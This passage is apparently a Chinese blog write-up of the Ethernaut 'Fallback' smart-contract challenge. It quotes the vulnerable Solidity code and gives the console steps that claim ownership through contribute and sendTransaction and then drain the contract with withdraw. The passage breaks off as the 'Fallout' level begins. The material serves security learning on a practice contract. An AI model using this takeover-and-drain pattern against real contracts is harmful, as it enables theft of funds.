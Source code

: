 ```javascript

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  fallback() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}

```

题目要求：

  1. you claim ownership of the contract
  2. you reduce its balance to 0

想成为owner这里可以做到：

```javascript
  fallback() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

但是需要`contributions[msg.sender] > 0`，还需要先在这里给一次钱：

```javascript
  function contribute() public payable {
    require(msg.value < 0.001 ether);   //发送少于0.001 ether
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {   //基本不可能
      owner = msg.sender; 
    }
  }
```

但是怎么就是调用函数的时候给钱我就不会看，看了一下师傅们是这样：

```javascript
await contract.contribute({value: 1})
await contract.sendTransaction({value: 1})
// 上两步成为了 owner，下一步把合约的钱转走
await contract.withdraw()
```

调用函数给钱是`{value:1}`，直接给合约钱是`sendTransaction`。

# Fallout

相比前一题更简单了，要求：

> Claim ownership of the contract below to complete this level.
